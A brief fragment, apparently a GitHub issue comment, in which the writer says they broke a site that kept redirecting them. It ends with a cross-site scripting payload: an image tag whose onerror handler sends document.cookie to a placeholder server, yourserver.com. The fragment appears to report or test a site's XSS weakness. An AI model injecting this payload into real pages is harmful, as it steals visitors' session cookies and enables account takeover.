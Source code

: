 




In the end i broke the site with, cuz it keeps redirecting me.

![image](https://github.com/user-attachments/assets/7a3a8063-c5d3-425c-9ee0-87fc7ff76140)

```<img src=x onerror="location.href='http://yourserver.com/?c='+document.cookie">```

